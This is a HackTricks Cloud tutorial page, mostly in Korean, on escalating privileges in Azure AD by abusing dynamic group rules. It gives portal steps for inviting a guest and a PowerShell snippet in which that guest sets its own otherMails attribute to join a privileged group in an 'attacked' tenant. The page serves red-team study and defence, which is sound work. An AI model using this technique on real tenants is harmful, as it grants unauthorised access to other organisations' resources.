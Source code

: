 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Dynamic groups**는 **규칙**이 설정된 그룹으로, 규칙에 맞는 모든 **사용자 또는 장치**가 그룹에 추가됩니다. 사용자의 **속성**이 **변경**될 때마다 동적 규칙이 **재검토**됩니다. 새로운 **규칙**이 **생성**될 때마다 모든 장치와 사용자가 **검토**됩니다.

동적 그룹에는 **Azure RBAC 역할**을 할당할 수 있지만, 동적 그룹에 **AzureAD 역할**을 추가하는 것은 **불가능**합니다.

이 기능은 Azure AD 프리미엄 P1 라이선스가 필요합니다.

## Privesc

기본적으로 모든 사용자가 Azure AD에서 게스트를 초대할 수 있으므로, 동적 그룹 **규칙**이 **속성**을 기반으로 사용자에게 **권한**을 부여하는 경우, 새로운 **게스트**에서 이 속성을 **설정**하여 **권한을 상승**시킬 수 있습니다. 게스트도 자신의 프로필을 관리하고 이러한 속성을 변경할 수 있습니다.

동적 멤버십을 허용하는 그룹 가져오기: `Get-AzureADMSGroup | ?{$_.GroupTypes -eq 'DynamicMembership'}`

### Example

* **Rule example**: `(user.otherMails -any (_ -contains "tester")) -and (user.userType -eq "guest")`
* **Rule description**: 보조 이메일에 'tester' 문자열이 포함된 모든 게스트 사용자가 그룹에 추가됩니다.

1. **Azure Active Directory** -> **Users**로 이동하여 `Want to switch back to the legacy users list experience? Click here to leave the preview`를 **클릭**
2. **`New guest user`**를 클릭하고 이메일을 **초대**
3. 초대가 전송되면 **사용자의 프로필**이 Azure AD에 **추가**됩니다. 사용자의 프로필을 열고 **Invitation accepted** 아래의 **(manage)**를 **클릭**
* ![](<../../../.gitbook/assets/image (281).png>)
4. **`Resend invite?`**를 **Yes**로 변경하면 초대 URL을 받게 됩니다:
* ![](<../../../.gitbook/assets/image (205).png>)
5. **URL**을 복사하여 **열고**, 초대된 사용자로 **로그인**하고 초대를 **수락**
6. cli에서 사용자로 **로그인**하고 보조 이메일 설정

{% code overflow="wrap" %}
```powershell
# Login
$password = ConvertTo-SecureString 'password' - AsPlainText -Force
$creds = New-Object
System.Management.Automation.PSCredential('externaltester@somedomain.onmicrosoft.com', $Password)
Connect-AzureAD -Credential $creds -TenantId <tenant_id_of_attacked_domain>

# Chnage OtherMails setting
Set-AzureADUser -ObjectId <OBJECT-ID> -OtherMails <Username>@<TENANT_NAME>.onmicrosoft.com -Verbose
```
{% endcode %}

## References

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
